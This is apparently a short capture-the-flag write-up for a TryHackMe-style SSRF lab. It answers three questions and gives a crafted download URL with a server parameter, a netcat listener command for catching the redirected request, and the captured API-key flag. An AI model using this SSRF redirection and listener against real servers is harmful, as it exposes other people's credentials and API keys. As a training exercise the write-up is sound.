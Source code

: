 ### Explore the website. What is the only host allowed to access the admin area?

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/28a12198-1972-4b11-8b2b-61bbc9e6fc34)

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/f68832a2-489e-4b29-9912-94737cd34fb3)

`localhost`

### Check the "Download Resume" button. Where does the server parameter point to?

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/7346bbb8-473b-4908-a27b-c7476394603c)

`secure-file-storage.com`

### Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?

`http://10.10.166.40:8087/download?server=secure-file-storage.com:8087&id=75482342`

and 

`nc -lvnp 8087`

`THM{Hello_Im_just_an_API_key}`


















